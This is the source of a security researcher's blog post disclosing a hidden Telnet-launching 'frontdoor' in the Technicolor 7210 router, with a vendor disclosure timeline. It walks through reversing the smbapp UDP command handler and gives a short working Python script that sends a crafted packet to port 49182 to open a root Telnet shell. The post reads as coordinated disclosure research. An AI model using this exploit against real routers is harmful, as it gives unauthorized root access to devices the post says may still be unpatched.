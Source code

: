 +++
banner = "/uploads/2018/10/technicolor-frontdoor.png"
categories = [ "Exploit", "Linux", "Hardware Hacking", "Reverse Engineering" ]
date = "2018-10-23T00:40:00+00:00"
excerpt = "How to use hidden functionality in the Technicolor 7210 to gain root access to it..."
format = "post"
tags = [ "Technicolor", "Passwords", "SOHO", "QEMU" ]
title = "Frontdoor to the Technicolor 7210"

[[timeline]]
id = "disclosure"
title = "Disclosure Timeline"

[[disclosure]]
id = "F"
title = "30 days"
start = "2018-06-24"
end = "2018-07-24"
type = "background"
className = "bg-first text-dark"

[[disclosure]]
id = "S"
title = "60 days"
start = "2018-07-24"
end = "2018-08-24"
type = "background"
className = "bg-second text-dark"

[[disclosure]]
id = "T"
title = "90 days"
start = "2018-08-24"
end = "2018-09-24"
type = "background"
className = "bg-third text-dark"

[[disclosure]]
id = 1
title = "First reported issues to Technicolor"
start = "2018-06-24"

[[disclosure]]
id = 2
title = "Report acknowledged"
content = "Technicolor’s security team acknowledged receipt of the report"
start = "2018-06-24"

[[disclosure]]
id = 3
title = "Asked for an update"
start = "2018-07-10"

[[disclosure]]
id = 4
title = "Asked for an update"
start = "2018-09-06"

[[disclosure]]
id = 5
title = "Vulnerability acknowledged"
content = "Technicolor’s security theme acknowledged the vulnerability and let me know that they’re in the process of fixing it"
start = "2018-09-07"

[[disclosure]]
id = 6
title = "Continue to withhold disclosure"
content = "Informed Technicolor’s security team that I will continue to withhold disclosure and suggested a possible fix for this flaw and for a newly discovered way to exploit a previously reported RCE"
start = "2018-09-07"

[[disclosure]]
id = 7
title = "Asked for an update"
content = "Let Technicolor team know I had published the post on how I reversed engineer the firmware, asked if a CVE had been assigned and reminded that the 90 [sic] day grace period will end on October 24th"
start = "2018-10-08"

[[disclosure]]
id = 8
title = "Public release"
content = "Released details through this blog post (120 days after reporting it)"
start = "2018-10-24"
+++

In a previous [article][1], I explained how to get `root` on the embedded Linux part of the Technicolor 7210 router by leveraging a remote code execution (RCE). This article on the other hand, will explain how one can leverage a "frontdoor" to gain the same level of access.

<!--more-->

{{< youtube class="ratio ratio-16x9 mb-3" id="zPmzcbA--A8" >}}

{{< alert >}}This blog post was originally written in 23 of June, 2018. The vulnerability disclosed in this blog post, as far as I know is yet to be fixed. I haven't requested a CVE, neither am I aware if Technicolor did so. Disclosure timeline can be found at the end of the blog post.{{< /alert >}}

### Control Mechanism

The TC7210 has two operative systems (OS), the eCos real-time OS, and a Linux based embedded OS. The eCos OS is responsible for managing all network functionalities as well as the Network Attached Storage (NAS) functionalities provided by the Linux OS.

For that to happen, the eCos OS needs to be able to communicate with the Linux OS. As discussed in the previous article, the `smbapp` is the application responsible for managing the NAS functionality. A good indicator of how the application is receiving commands from the eCos OS is the fact that it listens on port `49182` (UDP).

```shell {linenos=inline}
#!/bin/bash
netstat -nlp
# Active Internet connections (only servers)
# Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
# tcp        0      0 192.168.178.10:4321     0.0.0.0:*               LISTEN      556/bcmmserver
# tcp        0      0 192.168.178.10:2468     0.0.0.0:*               LISTEN      556/bcmmserver
# tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      2601/smbd
# tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      316/portmap
# tcp        0      0 192.168.178.10:80       0.0.0.0:*               LISTEN      556/bcmmserver
# tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      2601/smbd
# tcp        0      0 :::23                   :::*                    LISTEN      2596/telnetd
# udp        0      0 192.168.178.10:137      0.0.0.0:*                           2649/nmbd
# udp        0      0 0.0.0.0:137             0.0.0.0:*                           2649/nmbd
# udp        0      0 192.168.178.10:138      0.0.0.0:*                           2649/nmbd
# udp        0      0 0.0.0.0:138             0.0.0.0:*                           2649/nmbd
# udp        0      0 0.0.0.0:49181           0.0.0.0:*                           386/mscapp
# udp        0      0 0.0.0.0:49182           0.0.0.0:*                           328/smbapp
# udp        0      0 0.0.0.0:1900            0.0.0.0:*                           556/bcmmserver
# udp        0      0 0.0.0.0:111             0.0.0.0:*                           316/portmap
# Active UNIX domain sockets (only servers)
# Proto RefCnt Flags       Type       State         I-Node PID/Program name    Path
```

By revisiting the string analysis performed previously it was possible to find other interesting strings in the `smbapp` application that indicated some sort of functionality to manage a Telnet server. The strings are: `smbapp: Launching telnetd.` and `smbapp: Killing telnetd`. It is possible to confirm this by loading `smbapp` in a disassembler and searching for references to those strings.

{{< figure image="/uploads/2018/10/tc7210-telnet-control.png" alternative="Telnetd control" caption="Starting and stopping the Telnet daemon."  thumbnail="/uploads/2018/10/tc7210-telnet-control-800x247.png">}}

The code above is contained in a function called `executeCommand` which is called from a loop where the UDP packets to port `49182` are received.

{{< figure image="/uploads/2018/10/tc7210-recfrom-loop.png" alternative="Receiving the UDP packets." caption="Receiving the UDP packets."  thumbnail="/uploads/2018/10/tc7210-recfrom-loop-800x368.png">}}

### Flow and Packets

The next step is to understand what is the format of the packet that needs to be sent to the `smbapp` in order to start the Telnet daemon. The `executeCommand` function is quite complex and has an awful amount of branching. As such it is easier to backtrack the flow of code execution taking into consideration all the branching that would lead to the Telnet daemon being launched.

{{< figure image="/uploads/2018/10/tc7210-executecommand-flow.png" alternative="Flow of execution needed to control the Telnet daemon." caption="Flow of execution needed to control the Telnet daemon."  thumbnail="/uploads/2018/10/tc7210-executecommand-flow-800x1129.png">}}

From the flow of execution depicted above, we can see that the first word of the packet that needs to be sent is `0x107`, the following word doesn't really matter, and the last double word should be `0x00000001`.

### Exploitation

With this information, the next step was to hack up a script that would send the right bytes to the listening socket of the `smbapp`.

```python {linenos=inline}
import socket

ADDRESS = '<IP address of the NAS>'
PORT = 49182
PACKET = bytes([
    0x01, 0x07, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x01
])

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(PACKET, (ADDRESS, PORT))

line, server = sock.recvfrom(128)

print(line)
```

{{< alert >}}The script needs to be executed with Python 3.{{< /alert >}}

Using the script against the NAS functionality of the router, we get an awesome Telnet prompt. Further to the above, it is also possible to control an HTTP server (that exposes some CGI scripts), and whether the Linux OS responds to pings.

{{< figure image="/uploads/2018/10/tc7210-exploit.png" alternative="Success!" caption="Outcomes of the execution of the script.">}}

Hope this has been interesting and insightful!

[1]: /2018/06/03/rooting-the-technicolor-7210/ "Rooting the Technicolor 7210"
